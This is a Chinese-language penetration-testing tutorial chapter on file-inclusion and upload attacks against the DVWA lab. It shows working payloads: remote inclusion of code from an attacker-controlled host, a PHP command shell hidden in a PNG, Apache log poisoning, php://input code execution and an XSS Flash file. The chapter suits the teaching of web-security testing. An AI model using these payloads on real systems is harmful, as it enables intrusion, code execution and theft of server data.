# 第五章 文件包含攻击

在前几章中，我们了解了如何设置我们的环境并熟悉我们的工具。我们甚至讨论了通过寻找低风险漏洞来攻击应用程序。秉承同样的精神，在本章中，我们将分析文件包含和文件上传攻击。虽然这些类型的攻击并不复杂，但它们仍然很常见。文件包含漏洞似乎已经存在很久了，而且看起来短时间内不会消失。**本地文件包含**（**LFI**）和**远程文件包含**（**RFI**）漏洞并不是唯一可以利用应用程序并使其受到攻击的方式。即使开发人员已经限制了可上传的服务器端可执行代码，文件上传漏洞仍然可以被滥用，正如我们稍后在本章中将看到的那样。仍然有相当多的应用程序容易受到 LFI、文件上传滥用，甚至有时是 RFI 的攻击。

本章将涵盖以下主题：

+   RFI

+   LFI

+   文件上传滥用

+   链接漏洞以实现代码执行

如果你曾在企业界工作过，肯定会发现这些问题发生的频率是多么的高。定制的内部应用程序通常是以截止日期为导向开发的，而不是考虑安全性。企业级 web 应用程序并不是唯一的问题：**物联网**（**IoT**）的噩梦才刚刚开始蔓延。大多数价格实惠的设备，比如 Wi-Fi 路由器或互联网连接的毛绒玩具，都设计得很差，一旦发布就再也不会更新。由于许多约束因素，包括财务限制和硬件局限性，设备的安全性非常基础，甚至根本没有。物联网设备是 2000 年代的 PHP 应用程序，而我们曾认为消失的漏洞正在卷土重来，带着强烈的报复性。

为了说明这些问题，我们将使用**Damn Vulnerable Web App**（**DVWA**）项目。这个特别的应用程序是为了展示在实际环境中常见的最流行的 web 漏洞而构建的。从命令注入到 XSS，所有这些都可以在三个难度级别（低、中、高）上进行测试。

### 注

DVWA 可以以多种格式下载，包括一个易于运行的 Live CD，网址为[`www.dvwa.co.uk/`](http://www.dvwa.co.uk/)。

为了简化，我们的 DVWA 实例将通过[`dvwa.app.internal`](http://dvwa.app.internal)进行访问。

# RFI

尽管在现代应用程序中不那么常见，但 RFI 漏洞仍然会时不时地出现。RFI 在早期的 Web 和 PHP 中非常流行。PHP 因允许开发者实现一些本质上危险的功能而臭名昭著。`include()` 和 `require()` 函数本质上允许从其他文件中包含代码，这些文件可以位于同一磁盘上，也可以通过网络加载。这使得 Web 应用程序更强大、更动态，但也付出了巨大的代价。正如你所想的那样，允许未经清理的用户数据传递给 `include()` 函数，可能导致应用程序或服务器被攻陷。

允许将远程文件包含到服务器端代码中的危险性是显而易见的。PHP 会下载远程文本并将其解释为代码。如果远程 URL 被攻击者控制，他们可以轻松地将 shell 代码传递给应用程序。

在以下示例中，RFI 漏洞可以通过一个简单的 `system()` 透传 shell 来利用。在攻击者控制的 `c2.spider.ml` 服务器上，提供了一个包含 shellcode 的纯文本文件：

```
root@kali:~# curl http://c2.spider.ml/test.txt
**<?php system('cat /etc/passwd'); ?>**
root@kali:~#
```

DVWA 应用程序在以下 URL 中存在 RFI 漏洞：

```
http://dvwa.app.internal/vulnerabilities/fi/
```

攻击者可以使用 `page` `GET` 参数指定一个任意页面进行包含，示例如下：

```
http://dvwa.app.internal/vulnerabilities/fi/?page=about.php
```

由于 `page` 参数没有进行适当的输入清理，攻击者可以指定任何他们希望服务器加载和显示的文件，包括托管在其他地方的远程文件。然后，攻击者可以指示易受攻击的应用程序 `dvwa.app.internal` 包含该远程文件，该文件将作为 PHP 代码进行处理，实质上导致代码执行。

我们可以将攻击者控制的完整 URL `http://c2.spider.ml/test.txt` 指定为要包含的页面，如下所示：

```
http://dvwa.app.internal/vulnerabilities/fi/?page=http://c2.spider.ml/test.txt
```



图 5.1：应用程序包含远程托管的 PHP 代码，执行它，并返回 /etc/passwd 的内容

如前所述，RFI 漏洞在现代应用程序中较少见，但由于 IoT 设备使用过时的库和包，它们正在卷土重来。

允许 `include()` 从网络获取代码有其合理的原因。某些应用程序可能围绕这一特性进行架构设计，迁移出去可能成本过高。从企业角度来看，可能更便宜的是保持现有架构不变，仅通过打补丁添加控制措施，并希望通过白名单或黑名单的方法来清理输入。

基于白名单的控制是理想选择，但在动态的生产环境中维护起来也较为困难。如果域名和 IP 经常变动（比如 CDN 和云基础设施），更新白名单以匹配可能会消耗大量资源。应用程序的关键性可能要求零停机时间；因此，解决方案应该是自动化的。然而，没有引入安全漏洞的情况下实现这一点可能是非常困难的。

也可以选择黑名单方法，尽管无法知道所有当前和未来的攻击输入。通常不推荐使用黑名单，因为攻击者可以利用足够的时间反向工程黑名单并绕过它。然而，某些情况下由于缺乏资源或时间，仍然会实现黑名单。如果审计结果要求对特定应用组件实施安全控制，但没有具体说明如何执行，可能通过实施黑名单可以更快地获得合规检查标记。

限制 RFI 的控制措施可以在网络层面实现。应用程序的出口流量会被严格审查，仅允许连接到已知服务器，从而防止攻击者从 C2 服务器包含代码。理论上，这是一个有效的控制方法。它是一个白名单方法，并且不需要重新设计应用程序的工作流程。开发人员可以向网络安全工程师提供一个应当可以访问的域名列表，其他所有连接应当被拒绝。

# LFI

LFI 漏洞依然十分严重，且可能不会很快消失。应用程序能够从磁盘上的其他文件拉取代码通常是有用的。这使得应用更加模块化并且更易于维护。问题出现在通过 `include` 指令传递的字符串在应用的多个部分被拼接，并且可能包含由不可信用户提供的数据。

文件上传与文件包含的组合可能会带来灾难。如果我们上传一个 PHP shell 并将其存储在 Web 目录外的某个位置，则 LFI 漏洞可能会提取并执行该代码。

DVWA 可以用来展示这种攻击类型。`high` 难度设置禁止上传除 JPEG 或 PNG 文件以外的任何文件，因此我们不能直接访问上传的 shell 并执行代码。

为了解决这个问题，我们可以使用 ImageMagick 的 `convert` 命令生成一个假的 PNG 文件。我们将创建一个 32×32 像素的小图像，背景为粉色，并使用以下开关将其保存为 `shell.png`：

```
**root@kali:~# convert -size 32x32 xc:pink** 
**shell.png**

```

文件数据结构相对简单。PNG 文件头和描述内容的几个字节是通过 `convert` 命令自动生成的。我们可以使用 `hexdump` 命令检查这些字节。`-C` 参数会使输出更加可读：

```
**root@sol:~# hexdump -C shell.png**
**00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|**
**00000010  00 00 00 20 00 00 00 20  01 03 00 00 00 49 b4 e8  |...... .....I..|**
**00000020  b7 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |.....gAMA......a|**
**00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |....cHRM..z&...|**
**00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|**
**00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |'..:....p..Q<...|**
**00000060  06 50 4c 54 45 ff c0 cb  ff ff ff 09 44 b5 cd 00  |.PLTE.......D...|**
**00000070  00 00 01 62 4b 47 44 01  ff 02 2d de 00 00 00 0c  |...bKGD...-.....|**
**00000080  49 44 41 54 08 d7 63 60  18 dc 00 00 00 a0 00 01  |IDAT..c'........|**
**00000090  61 25 7d 47 00 00 00 00  49 45 4e 44 ae 42 60 82  |a%}G....IEND.B'.|**

```

虽然有很多奇怪的数据，但它们都能构成一个正常的 PNG 图像。事实上，我们还可以在文件末尾添加任意字节，大多数图像查看器都不会有问题来渲染该文件。我们可以利用这个知识通过 LFI 漏洞将一些 PHP 代码嵌入文件中，以便稍后由服务器执行。

首先，我们需要一个简单的 PHP shell，类似于前面的章节。以下是我们将附加到 PNG 文件中的 PHP 代码：



图 5.2：Web shell 源代码

就像之前一样，`if` 语句会检查传入的 `password` 参数的 MD5 哈希值是否匹配 `f1aab5cd9690adfa2dde9796b4c5d00d`。如果匹配，`cmd` `GET` 参数中的命令字符串将传递给 PHP 的 `system()` 函数，后者会将其作为系统命令执行，从而给我们提供 shell 访问。

我们要找的 MD5 值是 `DVWAAppLFI1` 的哈希值，正如通过 `md5sum` Linux 命令确认的那样：

```
**root@kali:~# echo -n DVWAAppLFI1 | md5sum**
**f1aab5cd9690adfa2dde9796b4c5d00d  -**
**root@kali:~#**

```

我们可以使用 `echo` shell 命令将 PHP 代码追加（`>>`）到我们的 `shell.png` 图片中：

```
root@kali:~# echo '**<?php if (md5($_GET["password"]) == "f1aab5cd9690adfa2dde9796b4c5d00d") { system($_GET["cmd"]); } ?>**' >> **shell.png**

```

我们之前见过这种透过的 shell，目前应该可以顺利运行。如果需要，我们可以将其替换为更高级的 shell，但对于我们的概念验证，这已经足够了。

如果我们使用 `hexdump` 检查 PNG shell 的内容，我们可以清楚地看到 PHP shell 被写入在 PNG 图片文件结构结束之后。

```
root@sol:~# hexdump -C shell.png
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  01 03 00 00 00 49 b4 e8  |... ... .....I..|
00000020  b7 00 00 00 04 67 41 4d  41 00 00 b1 8f 0b fc 61  |.....gAMA......a|
00000030  05 00 00 00 20 63 48 52  4d 00 00 7a 26 00 00 80  |.... cHRM..z&...|
00000040  84 00 00 fa 00 00 00 80  e8 00 00 75 30 00 00 ea  |...........u0...|
00000050  60 00 00 3a 98 00 00 17  70 9c ba 51 3c 00 00 00  |'..:....p..Q<...|
00000060  06 50 4c 54 45 ff c0 cb  ff ff ff 09 44 b5 cd 00  |.PLTE.......D...|
00000070  00 00 01 62 4b 47 44 01  ff 02 2d de 00 00 00 0c  |...bKGD...-.....|
00000080  49 44 41 54 08 d7 63 60  18 dc 00 00 00 a0 00 01  |IDAT..c'........|
00000090  61 25 7d 47 00 00 00 00  49 45 4e 44 ae 42 60 82  |a%}G....IEND.B'.|
000000a0  3c 3f 70 68 70 20 69 66  20 28 6d 64 35 28 24 5f  **|<?php if (md5($_|**
**000000b0  47 45 54 5b 22 70 61 73  73 77 6f 72 64 22 5d 29  |GET["password"])|**
**000000c0  20 3d 3d 20 22 66 31 61  61 62 35 63 64 39 36 39  | == "f1aab5cd969|**
**000000d0  30 61 64 66 61 32 64 64  65 39 37 39 36 62 34 63  |0adfa2dde9796b4c|**
**000000e0  35 64 30 30 64 22 29 20  7b 20 73 79 73 74 65 6d  |5d00d") { system|**
**000000f0  28 24 5f 47 45 54 5b 22  63 6d 64 22 5d 29 3b 20  |($_GET["cmd"]); |**
**00000100  7d 20 3f 3e 0a                                    |} ?>.|**

```

就所有意图和目的而言，这仍然是一个有效的 PNG 图片。大多数渲染软件应该不会有问题显示其内容，一个小的粉红色框，如下所示：



图 5.3：带后门的图片文件成功显示

虽然 DVWA 实际上不会检查文件是否具有有效的 PNG 头，但一些应用程序可能会检查。即使 Web 应用程序的检查方式比单纯地检查文件名是否以 `.png` 结尾更智能，我们的 shell 也应该能悄无声息地通过。

现在可以通过 DVWA 的 `http://dvwa.app.internal/vulnerabilities/upload/` 组件上传被植入后门的 PNG 文件。



图 5.4：带后门的 PNG 文件成功上传到目标应用程序

DVWA 很贴心地告诉我们应用程序存储了我们的文件。在实际情况中，我们可能不会这么幸运。如果漏洞需要绝对路径，我们就得依赖信息泄漏来获取路径。如果我们可以在文件包含攻击中使用相对路径，我们可以通过有系统地遍历文件系统（`../`、`../../`、`../../../` 等）来尝试找到磁盘上的文件。

为了利用我们的 PNG shell，我们将使用 DVWA 文件包含漏洞，地址为 `http://dvwa.app.internal/vulnerabilities/fi/`。LFI 问题出现在 `GET` 请求中的 `page` 参数。该应用程序允许包含几个磁盘上的文件，显然是为了更加模块化和易于管理。

文件包含漏洞非常简单，本质上允许用户指定一个磁盘上的文件来包含。虽然有一些安全控制防止我们包含任意文件，但由于这是 DVWA 项目，我们可以检查应用程序的源代码，查看哪些条件会阻止我们访问 shell。

该图展示了 LFI 安全控制的源代码。在包含文件之前，会执行此特定检查：



图 5.5：文件包含漏洞源代码

`if` 语句仅允许以 `file` 开头的文件被包含，例如 `file01.php` 或 `file02.php`。`include.php` 文件也可以被包含。其他任何文件，例如 `http://c2.spider.ml/test.txt`，都将产生 `ERROR: File not found!` 错误信息。

乍一看，这是一个相当严格的控制，但也存在一些问题。这种控制实现展示了应用开发和安全性中的一个重要问题。为了防止包含攻击，开发者采用了白名单方法，但由于时间限制和高维护成本，他们决定使用字符串匹配，而不是显式列出文件。理想情况下，用户输入永远不应传递给 `include`（或类似的）函数。硬编码的值更安全，但代码管理起来更困难。在安全性和可用性之间总是有取舍，作为攻击者，我们通常依赖于管理者选择更具成本效益但通常更不安全的选项。

我们可以将我们的 PNG shell 命名为 `file.png`，但由于我们上传的文件将位于易受攻击脚本的目录之外，我们需要传递的字符串必须是绝对（或相对）路径，这将无法触发前面截图中显示的 `if` 条件，从而导致攻击失败。再次强调，PHP 的多功能性和开发者友好性提供了帮助。PHP 允许开发者通过相对路径（`../../../etc/passwd`）、绝对路径（`/etc/passwd`）或使用内建的 URL 方案 `file://` 来引用磁盘上的文件。

为了绕过上传限制，我们可以直接使用绝对路径，并结合 `file://` 方案引用 `shell.png` 文件，指向 `hackable/uploads` 目录，这是文件上传页面慷慨告知我们的。

在 Linux 系统上，我们可以凭经验猜测网站根目录在磁盘上的位置。一个主要候选目录是 `/var/www/html/`。我们可以通过使用以下负载来确认 `file://` 方案下的 shell 是否可访问，当调用易受攻击的 URL 时，将 `page` 参数设置为该负载：

```
http://dvwa.app.internal/vulnerabilities/fi/?page=**file:///var/www/html/hackable/uploads/shell.png**

```

Burp Repeater 模块可以帮助我们触发并检查利用此漏洞的结果，如下图所示：



图 5.6：成功通过 LFI 包含后门 PNG 文件

看起来不错。左栏是向易受攻击页面发送的原始 HTTP `GET` 请求，使用 `file://` 方案和指向我们 `shell.png` 文件的绝对路径作为 `page` 参数。在右栏中，服务器响应似乎表明文件已经被包含，并且我们附加的 PHP 源代码没有显示，意味着它要么已执行，要么被压缩或裁剪功能去除。后一种情况虽然不幸，但我们可以通过尝试通过 URL 触发 shell 来迅速判断代码执行是否成功。

上传的 shell 将执行通过 `GET` 参数 `cmd` 传递的命令字符串，我们可以将 `whoami` 操作系统命令附加到之前的载荷中，并观察 Burp Repeater 模块的输出。我们还必须通过 `password` 参数提供预期的密码，如下图所示：



图 5.7：经过后门处理的 PNG 文件在 LFI 后成功执行了 shell 命令

成功了！通过利用两个漏洞：文件上传控制不严格和 LFI，我们现在可以在系统上执行代码。Repeater **Request** 列显示了 `whoami` 命令，它被传递到易受攻击的应用程序中，服务器的响应确认我们已经成功地以 `www-data` 用户身份显示应用程序的上下文。

对于 LFI 漏洞，并不总是需要一个文件上传功能。还有其他方式可以欺骗应用程序执行代码。在无法进行 RFI 的情况下，若没有文件上传功能或上传的文件无法通过 `include` 函数访问，我们需要更加具有创意才能执行代码。

与寻找上传的 shell 的 `file://` 载荷类似，我们可以引用系统上的另一个文件，其内容我们在一定程度上可控。默认情况下，Apache Web 服务器会在磁盘上生成一个 `access.log` 文件。该文件包含发送到应用程序的每个请求，包括 URL。根据一些 Google-fu 的经验，我们知道这个文件通常位于 `/var/log/apache2` 或 `/var/log/httpd` 目录下。

由于我们无法通过文件上传功能上传 shell，我们可以改为通过 URL 发送 shell 源代码。Apache 会将请求尝试记录到访问日志文件中，我们可以通过 LFI 漏洞包含该文件。虽然会打印大量垃圾内容，但更重要的是，当 PHP 遇到我们的 `<?php` 标签时，它会开始执行代码。

我们可以通过简单的 HTTP `GET` 请求将 shell 传递给应用程序：



图 5.8：通过 GET 请求将我们的 PHP shell 代码发送到应用程序服务器日志

服务器的响应无关紧要，因为 `access.log` 文件已经被毒化。在应用程序服务器上，我们可以通过使用 `grep` 查找该文件，确认 shell 已被写入日志文件，如下所示：

```
root@dvwa:/# grep system /var/log/apache2/access.log
172.17.0.1 - - "GET **/<?php if (md5($_GET['password']) == 'f1aab5cd9690adfa2dde9796b4c5d00d') { system($_GET['cmd']); } ?>**
HTTP/1.1" 404 463 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"
```

剩下的就是利用 LFI 让 PHP 执行日志文件中的任何代码。如前所述，我们必须通过 `GET` 请求提供正确的密码。我们的 URL 载荷将包含 `file://` 协议和 Apache `access.log` 文件的绝对路径 `/var/log/apache2/access.log`，我们的 shell 密码，以及查看 `/etc/passwd` 文件内容的命令。由于该命令是通过 `GET` 请求参数发送的，我们必须将 `cat` 和 `/etc/passwd` 之间的空格转换为加号，如下所示：



图 5.9：通过 LFI 和被毒化的 Apache 日志文件实现远程代码执行

服务器响应确认 `cat` 命令已成功执行。在响应的噪音中，我们可以找到 `/etc/passwd` 的内容。使用这种方法明显存在一些隐蔽问题。如果防御方仔细检查日志文件，这将像一个明显的错误一样突出。

这种方法可能比较粗糙，但它确实展示了一个简单的文件包含漏洞可能造成的损害程度。

# 文件包含到远程代码执行

类似于之前示例中使用的 `file://` 协议，PHP 解释器也通过 `php://` 协议提供访问各种输入和输出流的功能。这在 PHP 用于**命令行界面**（**CLI**）时尤其有意义，开发者需要访问这些常见的操作系统标准流：`stdin`、`stderr`、`stdout`，甚至内存。标准流是应用程序用来与它们执行环境进行通信的。例如，Linux 中的 `passwd` 命令会使用 `stdout` 流向终端显示信息性消息（“请输入您的现有密码”），`stderr` 用于显示错误信息（“密码无效”），而 `stdin` 则提示用户输入以更改现有密码。

从 Web 客户端获取输入的传统方式是通过 `$_GET` 和 `$_POST` 超全局变量读取数据。`$_GET` 超全局变量提供通过 URL 传递的数据，而 `$_POST` 超全局变量则包含已解析的 `POST` 正文数据。

### 注意

超全局变量是由 PHP 解释器始终设置的变量，并且在整个应用程序中都可访问。`$_GET` 和 `$_POST` 是最常用的，但还有其他变量，包括 `$_SESSION`、`$_ENV` 和 `$_SERVER`。更多信息可以在 PHP 手册中找到：[`php.net/manual/en/language.variables.superglobals.php`](http://php.net/manual/en/language.variables.superglobals.php)。

在文件包含漏洞中，`php://` 协议可以与输入流（即 `stdin`）结合使用来攻击应用程序。与常见的 `http://` 或 `https://` 协议不同，`php://input` URL 可以被包含到应用程序中，迫使 PHP 将请求体当作代码读取并执行。解释器从请求体中获取输入数据。

如果我们将 `php://input` 的值作为包含的页面，并且在请求体中输入任意 PHP 代码，服务器端解释器将读取并执行它，如下图所示：



图 5.10：使用 LFI 执行 PHP 代码

前面的截图中，左侧页面中的 `GET` 请求使用 `php://input` 作为 `page` 参数，指示 PHP 包含来自用户输入的代码。在 Web 应用程序环境中，输入数据来自请求体。在这个案例中，请求体包含一个简单的 PHP 脚本，它在系统上执行命令 `cat /etc/passwd`。响应反映了 `/etc/passwd` 的输出，确认远程代码执行成功。

没有建立外部连接，并且基于网络的出口白名单控制已被绕过。PHP 是一种功能丰富的编程语言，有许多方法可以完成相同的事情。这通常对攻击者有利，因为它提供了更多的绕过控制、混淆和数据外泄的机会。这一说法不仅适用于 PHP，还适用于其他语言。

# 更多文件上传问题

在本章早些时候，我们查看了文件上传如何帮助我们攻破一个应用程序以及它所在的服务器。我们能够上传一个有效的 PNG 文件，其中嵌入了 PHP Shell。LFI 漏洞使我们能够执行该代码。

允许用户上传任意文件到应用程序还有其他问题。你完全可以通过简单地将扩展名加入黑名单来防止用户上传 PHP、JSP 或 ASP Shell。PHP 只会在文件具有特定扩展名（或两个扩展名）的情况下执行代码，前提是这些文件被直接调用。如果应用程序中没有其他地方存在 LFI 漏洞，那么文件上传功能从代码执行角度来看应该是相对安全的。

如果应用程序的某个功能是允许用户存储文件，那么白名单可能很难实施，并且过程繁琐。在这种情况下，黑名单扩展名可能是最具成本效益的解决方案。当我们无法上传 Shell 或执行服务器端代码时，我们仍然可以攻击用户。

我们以前使用过的 SecLists 仓库包含一个名为 `xssproject.swf` 的 Flash 文件，它将允许我们对用户执行 XSS 攻击。Flash 代码能够像任何其他使用 Flash 插件的站点一样执行 JavaScript 代码，使用 `ExternalInterface` API。

用于生成 `xssproject.swf` 的 **ActionScript** (**AS**) 代码相当简单。ActionScript 是 Adobe Flash 的编程语言，用于自动化 Flash 应用程序。它的语法与 Java 非常相似，就像 Java 一样，它会被编译成字节码并由宿主应用程序（即 Flash 插件）执行：

```
package
{
  import flash.display.Sprite;
  import flash.external.*;
  import flash.system.System;
  public class XSSProject extends Sprite
  {
    public function XSSProject()
    {
      flash.system.Security.allowDomain("*");
      ExternalInterface.marshallExceptions = true;
      try {
        **ExternalInterface.call**("0);}catch(e){};"+**root.loaderInfo.parameters.js**+"//");
      } catch(e:Error) {
        trace(e);
      }
    }
  }
}
```

